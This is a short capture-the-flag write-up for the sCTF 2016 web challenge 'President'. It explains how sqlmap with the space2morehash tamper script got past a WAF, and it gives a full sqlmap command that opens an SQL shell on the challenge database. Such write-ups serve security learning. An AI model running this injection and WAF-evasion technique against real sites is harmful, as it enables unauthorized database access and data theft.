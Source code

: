 ```yaml
---
layout: post
title: "sCTF Q1 2016 - President"
category: writeups
author: phosphore
tags: web sctf-2016
---
```


## President
Web - 40 Points

I just created a site with a list of popular presidential candidates!

### Writeup
After some trying with sqlmap, we found out that there was some sort of WAF/IPS.
This tampering script ([space2morehash.py](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/space2morehash.py)) was useful to find a valid injection point.
It replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n'). Take note that the minimum version required for it to work is MySQL >= 5.1.13.

{% highlight bash %}
./sqlmap.py --dbms "MySQL" --technique U --batch --tamper "space2morehash.py" -r /tmp/president.sctf.michaelz.xyz.har -D sctf_injection --exclude-sysdbs --sql-shell
{% endhighlight %}

Bingo!


![Our injection]({{ site.url }}/assets/president_inj.png){: .center-image }




